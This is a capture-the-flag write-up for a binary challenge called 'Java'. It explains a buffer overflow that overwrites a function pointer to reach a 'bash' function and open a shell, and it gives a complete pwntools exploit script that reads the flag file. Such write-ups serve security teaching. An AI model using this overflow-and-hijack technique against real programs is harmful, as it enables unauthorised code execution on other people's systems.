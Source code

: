# Java
### 📄 Description
Comparing strings in assembly is an hard task for java n00bs.

## 🔑 Solution
By looking at the source we can see that there's a struct containing a string followed by a function pointer, if we can somehow overflow the string buffer we can jump to an arbitrary location. One interesting destination might be the last line of the `bash` function which happens to have an offset of `0x32` from the start of the function. The user input handling doesn't check string bounds so we can easily overflow the buffer and pop a shell.

```python
from pwn import *

context.binary = "./java"

p = process()
p.sendline(b"java" + b"A" * 28 + p64(context.binary.functions["bash"].address + 0x32))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
flag{this_is_a_flag}
```
